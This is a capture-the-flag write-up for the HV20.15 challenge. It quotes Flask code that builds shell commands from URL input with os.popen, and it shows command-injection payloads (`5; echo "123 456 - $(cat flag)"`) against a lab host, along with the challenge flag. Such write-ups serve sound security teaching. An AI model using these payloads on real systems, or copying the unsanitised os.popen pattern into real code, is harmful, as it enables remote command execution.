

# HV20.15 Man Commands, Server Lost

For this challenge, we get access to a website which allows us to browse `man` pages online. Moreover, the footer of the website contains a link to its [source code](./code.py). From that we know that the app was built using _Python_ and _Flask_.

By browsing through the code, we can see that the app actually executes the `man` command on the server to generate the content. The parameters are taken from the `url`. This heavily looks like there could be the possibility for a command injection attack. In the handler for the search endpoint, we already found a comment and a sanitization function which confirms that this has been exploited before:

```python
@app.route('/search/', methods=["POST"])
def search(search="bash"):
  search = request.form.get('search')
  # FIXED Elf4711: Cleaned search string, so no RCE is possible anymore
  searchClean = re.sub(r"[;& ()$|]", "", search)
  ret = os.popen('apropos "' + searchClean + '"').read()
  return render_template('result.html', commands=parseCommands(ret), search=search)
```

However, there are other endpoints that do similar things and don't use the `search_clean` function, so we should be able to perform a command injection attack there. Specifically, the `section` endpoint caught my attention as there is absolutely no input validation.

```python
@app.route('/section/')
@app.route('/section/<nr>')
def section(nr="1"):
  ret = os.popen('apropos -s ' + nr + " .").read()
  return render_template('section.html', commands=parseCommands(ret), nr=nr)
```

Passing a malicious payload like `1; ls` would already lead to a command execution on the server. However, we still need a way to get the output, which is generated by rendering the `section.html` template. For this purpose, we have to tweak our injected command to produce an output that matches the required format for the `parseCommands` function. After taking a quick look at this function, I figured out that the format should be something along `123 456 - <command output>`. Based on this information, I was able to perform a simple command injection attack by accessing an URL like this:

https://3b498503-b6f6-432e-af69-59d6f3d15179.idocker.vuln.land/section/5;%20echo%20%E2%80%9C123%20456%20-%20$(ls%20-al)%E2%80%9D
(URL decoded payload is `5; echo "123 456 - $(ls -al)"`)

From the output we see that there is a `flag` file at `/`. Now we can get the flag by slightly adjusting the payload to `5; echo "123 456 - $(cat flag)"`

https://3b498503-b6f6-432e-af69-59d6f3d15179.idocker.vuln.land/section/5;%20echo%20%22123%20456%20-%20$(cat%20flag)%22



**Flag:** HV20{D0nt_f0rg3t_1nputV4l1d4t10n!!!}
